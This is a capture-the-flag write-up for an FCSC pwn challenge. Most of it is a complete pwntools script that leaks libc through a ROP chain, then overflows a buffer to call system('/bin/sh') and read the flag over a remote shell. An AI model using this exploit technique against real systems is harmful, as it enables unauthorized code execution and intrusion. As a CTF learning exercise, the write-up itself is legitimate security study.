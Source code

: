 So, on this one, we can't leak the adresses ourselves: we only can input 1 choice before getting closed connection.
In a previous CTF, i've already done something similar: Ret2Libc.
Basically, you have to leak the libc adress using "put", then return to main, and then run your exploit knowing libc offets of the current execution.

Don't forget:
- Extract the file from Note a bug 1
- Extract the libc (or download it from internet): you need the EXACT same, else payloads won't work !

Here's my final payload, using Ret2Lib technique: 
- Leaking put base address
- Returning to main
- Calculating the libc base address
- Using that offset to reach /bin/sh and system
- Exploiting !
```python
from pwn import *

LOCAL_FILE_PATH: str = "./PWN/NoteABug/note_a_bug.bin"
REMOTE_SERVER = "challenges.france-cybersecurity-challenge.fr"
REMOTE_PORT = 2110
libc=ELF("./PWN/NoteABug/libc.so.6")
vuln_elf = ELF(LOCAL_FILE_PATH)
rop = ROP(vuln_elf)
def pwn(r):
    data = r.recvuntil(b'ote\n0. Exit\n>>> ')
    print(data.decode("utf-8"))
    # Reuse the same payload, using the leaked addresses
    r.sendline(b'1')
    data = r.recvuntil(b'ontent length: \n')
    print(data.decode("utf-8"))
    r.sendline(b'200') # add (5*8 addresses)
    data = r.recvuntil(b'Content: \n')
    print(data.decode("utf-8"))
    
    # Find gadgets
    pop_rdi_ret = rop.find_gadget(['pop rdi','ret'])[0]
    print(pop_rdi_ret)

    # Find addresses
    puts_plt = vuln_elf.plt['puts']
    puts_got = vuln_elf.got['puts']
    main_plt = vuln_elf.symbols['newNote']

    print(hex(puts_plt))
    print(hex(puts_got))
    print(hex(main_plt))

    # Build the ROP chain to leak libc address
    rop_chain = b'A'*104
    rop_chain += p64(pop_rdi_ret)  # Pop rdi; ret
    rop_chain += p64(puts_got)  # Address of puts in GOT
    rop_chain += p64(puts_plt)  # Call to puts function to leak address of puts function
    rop_chain += p64(main_plt)   # Return to main
    r.sendline(rop_chain)

    # To debug: r 1 < <(echo "1"; sleep 2; echo "200"; sleep 2; cat input.txt)
    # Then, press c under 2 seconds, and reach your breakpoint.
    test_payload = rop_chain
    print(len(rop_chain))
    print(rop_chain)

    with open ('PWN/NoteABug/input.txt', 'wb') as out:
        out.write(test_payload)

    leaked_puts = r.recv(7)

    print("leaked:", leaked_puts)
    puts_address = u64(leaked_puts.strip().ljust(8, b"\x00"))
    print(hex(puts_address))

    # Calculate libc base address
    libc.address = puts_address - libc.symbols['puts']

    print("Glibc_base:", hex(libc.address))
    system_address = libc.symbols['system']
    print(hex(system_address))


    # /bin/sh string address (gdb -> info proc map -> find x,y,"/bin/sh")
    # bin_sh = 0x7ffff79b3d88
    bin_sh = next(libc.search(b"/bin/sh"))
    print('/bin/sh address:', hex(bin_sh))

    # # System address (gdb -> p system)
    # system_addr = 0x7ffff784f420
    system_addr = libc.symbols["system"]
    print("System address:", hex(system_addr))

    # Ret addr
    ret = rop.find_gadget(['ret'])[0]
    print("ret; addr found:", hex(ret))

    # Exit addresslibc_base
    exit_addr = libc.symbols["exit"]
    print("Exit address:", hex(exit_addr))

    data = r.recvuntil(b"Content length: \n")
    print(data.decode("utf-8"))
    r.sendline(b'200')
    data = r.recvuntil(b'Content: \n')
    print(data.decode("utf-8"))
    # 104 A padding to reach the filename
    payload = b'A'*104
    payload += p64(ret)
    payload += p64(pop_rdi_ret)
    payload += p64(bin_sh)
    payload += p64(system_addr)
    print(payload)

    r.clean()
    r.sendline(payload)
    r.sendline(b'cat /fcsc/YAu4kj47vbSDkqTEf2YttEcK88pXYpf/*')
    r.interactive()

    data = r.recvall(timeout=5)
    print(data)
    
    # r.close()

def run_remote():
    conn = remote(REMOTE_SERVER, REMOTE_PORT)
    pwn(conn)

def run_bin_local(process_path: str):
    proc = process([process_path, "1"])
    pwn(proc)

def main():
    #run_bin_local(LOCAL_FILE_PATH)
    run_remote()

if __name__ == '__main__':
    main()
```